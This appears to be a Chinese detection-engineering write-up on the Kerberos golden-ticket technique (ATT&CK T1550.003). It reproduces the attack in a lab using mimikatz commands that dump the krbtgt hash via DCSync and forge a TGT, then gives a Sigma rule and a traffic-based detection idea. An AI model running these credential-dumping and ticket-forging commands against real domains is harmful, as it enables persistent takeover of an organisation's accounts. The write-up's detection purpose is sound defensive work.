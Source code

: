 # T1550-003-win-黄金票据

## 来自ATT&CK的描述

攻击者可能会使用被盗的Kerberos票证“传递票证”，使其在目标组织的环境中横向移动，从而绕过正常的系统访问控制。传递票证（PtT）是一种使用Kerberos票证对系统进行身份验证的方法，无需访问帐户密码。Kerberos身份验证可以用作横向移动到远程系统的第一步。

在这种技术中，有效的Kerberos票有效的帐户被捕获OS凭证倾销。取决于访问级别，可以获得用户的服务票证或票证授予票证（TGT）。服务票证允许访问特定资源，而TGT可以用于从票证授予服务（TGS）请求服务票证以访问用户有权访问的任何资源。

可以为使用Kerberos作为身份验证机制的服务获取Silver Ticket，并用于生成票证以访问该特定资源和承载该资源的系统（例如，SharePoint）。

可以使用密钥分发服务帐户KRBTGT帐户NTLM哈希来获取域的Golden Ticket，这可以为Active Directory中的任何帐户生成TGT。

## 测试案例

黄金票据（golden ticket）：伪造票据授予票据（TGT），也被称为认证票据。与其说是一种攻击方式，不如说是一种后门，当域控权限掉后，再重新获取权限，因为常见的在域中管理员知道自己被入侵了 往往只是简单的修改域管的账号 恰恰krbtgt却被忽略…

## 检测日志

windows 安全日志

## 测试复现

### 测试环境

Windows server 2016（AD域控）

Win 7（靶机）

### 测试过程

#### 尝试访问DC目录

```dos
dir \\ICBC.abcc.org\c$\
```

![访问DC目录](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JFzcM6.png)

#### 导出krbtgt用户的hash和sid(使用mimikatz.exe工具)

```bash
lsadump::dcsync /domain:abcc.org /user:krbtgt    #domian：后面是域控名  user后面是krbtgt用户
```

![凭据](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JFzXdg.png)

在域内其他Client(用户机器)上使用其他域管理员来抓取krbtgt用户的hash和sid(使用mimikatz.exe工具)，这里命令和上面的命令是一样的。也可以利用其它方法获取krbtgt的NTML hash

#### 清除自己Client端(域内其他机器)的票据

在域控上面成功抓取了hash和sid，将hash和sid复制到其他域内机器中，也就是Client端，然后在mimikatz.exe执行kerberos::list查看我们当前的票据。

![清理凭据](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JFzjoQ.png)

如果存在其它凭据，可以使用kerberos::purge清除当前用户票据。

#### 伪造TGT票据

##### 方法一

```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域SID> /rc4:<KRBTGT NTLM Hash> /user:<任意用户名> /ptt" exit
```

![伪造](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JkSAwF.png)

##### 验证攻击效果

```dos
dir \\ICBC.abcc.org\c$\
```

![验证](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JkSeY9.png)

#### 方法二

```bash
mimikatz# kerberos::gloden /domain:*.com /sid:<域SID> /krbtgt: <KRBTGT NTLM Hash> /user:<任意用户名> /ticket:test.kribi
or
mimikatz# kerberos::gloden /domain:*.com /sid: <域SID> /aes256: <KRBTGT aes256> /user: <任意用户名> /ticket:test.kribi
```

![伪造2](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JkSMy6.png)

#### 导入*.kribi文件

![导入](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JkSQOK.png)

#### 验证是否成功

![验证1](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JkSd6P.png)

## 测试留痕

正常日志痕迹

![正常](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JkS6Yj.png)

异常日志痕迹

![异常](https://image-host-toky.oss-cn-shanghai.aliyuncs.com/JkSykQ.png)

## 检测规则/思路

### Sigma规则

```yml
title: windows本地账户操纵
description: win7测试
references:
tags: T1550-003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4624  #账户登录
        Account domain: '*.*' #可参考示例日志进行理解
    selection2:
        EventID: 4672  #特殊登录
        Account domain: _ #账户域为空
    timeframe: last 5s
    condition: all of them
level: medium
```

### 建议

最后，存在一些问题，mimikatz最新版本已经更新修复了一下问题，通过上述此特征检测黄金票据可能会产生误报或者漏洞，建议采用偏向流量侧的检测方法进行检测，思路如下。

1.AS-REP返回的Ticket字段中，虽然经过krbtgt密码的加密，但我们仍然可以对其计算唯一摘要值。

2.跟踪每一次的AS-REP TGT票据颁发，记录下Ticket Hash，存入列表A。

3.对每一次TGS-REQ中TGT Hash进行确认，判断该值是否存在于已知颁发过的TGT列表A中。如果不存在，则属于伪造的TGT，即黄金票据。

4.列表A的内容可设置过期时间，TGT和ST的默认最大有效期都是10小时。

## 参考推荐

MITRE-ATT&CK-T1550-003

<https://attack.mitre.org/techniques/T1550/003/>
